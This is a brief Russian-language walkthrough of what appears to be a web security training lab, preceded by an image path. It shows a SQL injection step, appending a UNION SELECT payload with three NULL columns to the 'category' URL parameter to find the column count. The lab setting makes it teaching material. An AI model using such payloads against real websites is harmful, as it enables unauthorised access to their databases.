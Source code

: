 1) Открываем категорию
2) К параметру "category" добавляем '+UNION+SELECT+NULL,NULL,NULL-- (Получили совпадение с искомой таблицей)  (Добавив '+UNION+SELECT+NULL--  или '+UNION+SELECT+NULL,NULL-- , результат будет отрицательным)
3) Лаба выполнена
